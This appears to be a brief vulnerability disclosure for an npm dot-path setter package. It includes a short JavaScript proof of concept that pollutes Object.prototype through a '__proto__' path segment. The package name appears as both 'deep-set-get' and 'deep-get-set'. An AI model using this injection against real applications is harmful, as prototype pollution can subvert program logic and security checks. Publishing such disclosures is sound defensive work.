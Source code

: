# Description
```deep-set-get``` is a Set and get values on objects via dot-notation strings. 
This package is vulnerable to prototype pollution. 

# POC
```
const deep = require('deep-get-set');
deep({},['__proto__','polluted'],true);
console.log(polluted);
```
